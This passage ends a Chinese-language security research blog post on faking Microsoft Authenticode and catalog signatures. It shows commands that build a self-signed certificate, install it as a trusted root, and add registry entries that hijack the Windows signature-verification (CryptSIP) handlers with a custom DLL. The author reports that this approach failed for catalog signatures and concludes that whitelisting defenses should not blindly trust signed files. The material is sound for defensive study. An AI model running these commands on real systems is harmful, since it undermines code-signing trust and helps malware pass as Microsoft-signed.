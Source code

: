 certtest.pfx不能使用之前手动生成的证书，不能加参数： `-eku 1.3.6.1.5.5.7.3.3`，否则exe文件的catalog签名将会校验失败

生成certtest.pfx的操作如下：

```
makecert -n "CN=Microsoft Windows Test1" -r -sv certtest.pvk certtest.cer
cert2spc certtest.cer certtest.spc
pvk2pfx -pvk certtest.pvk -pi 123456 -spc certtest.spc -pfx certtest.pfx -f
```

此处还需要将证书安装到“受信任的根证书颁发机构”存储区

管理员权限：

```
certmgr.exe -add -c certtest.cer -s -r localmachine root
```

否则，之后的签名验证会报错，提示证书链不可信

**补充：**

从“受信任的根证书颁发机构”存储区删除证书的操作为：

(管理员权限)

```
certmgr.exe -del -c -n "Windows Test1" -s -r localMachine Root
```

cat文件对应GUID:`DE351A43-8E59-11D0-8C47-00C04FC295EE`

替换注册表键值：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "AutoApproveHash" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{DE351A43-8E59-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "GetLegitMSSignature" /f
```

重启explorer.exe，所有的cat文件签名均为`Microsoft Windows`

将makecat1.cat添加到系统的安全编录数据库：

(管理员权限)

```
signtool catdb -v makecat1.cat
```

最终，发现文件的catalog签名保持不变，无法进行伪造

得出结论： **这种方式无法对catalog签名进行伪造**

## 0x05 小结
---

本文介绍了Authenticode签名伪造的另一种利用方法：通过修改系统的签名获取机制，欺骗系统将正常文件识别为包含签名数据。

经过这两篇文章的测试，得出最终结论：应谨慎对待系统的Authenticode签名，因为通过修改注册表或dll劫持等方式均能够伪造出微软签名，对此，白名单等防御机制不应盲目相信Authenticode签名过的文件。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

